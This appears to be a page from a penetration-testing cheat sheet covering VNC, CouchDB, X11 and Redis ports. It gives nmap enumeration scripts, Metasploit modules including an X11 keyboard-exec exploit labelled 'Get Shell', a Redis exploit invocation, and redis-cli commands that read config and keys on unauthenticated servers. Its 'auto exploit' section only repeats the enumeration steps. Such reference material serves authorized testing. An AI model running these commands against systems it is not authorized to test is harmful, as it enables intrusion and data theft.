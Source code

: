 ### VNC - 5800 / 5801 / 5900 / 5901 -  VNC

```bash
# Enumeration
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <PORT> $IP
msf> use auxiliary/scanner/vnc/vnc_none_auth

# Connect to vnc using Kali
vncviewer [-passwd passwd.txt] $IP::5901

```
### Port 5984 - CouchDB

```bash
# Enumeration
nmap -sV --script couchdb-databases,couchdb-stats -p 5984 $IP
msf> use auxiliary/scanner/couchdb/couchdb_enum

curl http://IP:5984/
# The reply should look something like:
{"couchdb":"Welcome","version":"0.10.1"}

```
References :
* https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html​

### Port 6000 - X11

```bash
# enumeration
nmap -sV --script x11-access -p 6000 $IP
msf> use auxiliary/scanner/x11/open_x11

# Remote Desktop View Way from:
https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref

# Get Shell
msf> use exploit/unix/x11/x11_keyboard_exec

```

### Redis - 6379

```bash
# Enumeration
nmap --script redis-info -sV -p 6379 $IP
msf> use auxiliary/scanner/redis/redis_server

https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis

# redis-tools
sudo apt-get install redis-tools
redis-cli -h 192.168.0.24
192.168.0.24:6379> info
192.168.0.24:6379> CONFIG GET *
192.168.0.24:6379> keys *
192.168.0.24:6379> get 351115ba5f690fb9b1bdc1b41e673a94 #This is a key list on the last command

# auto exploit
redis-cli -h 192.168.0.24
192.168.0.24:6379> info
192.168.0.24:6379> CONFIG GET *
192.168.0.24:6379> keys *
192.168.0.24:6379> get 351115ba5f690fb9b1bdc1b41e673a94 #This is a key list on the last command
```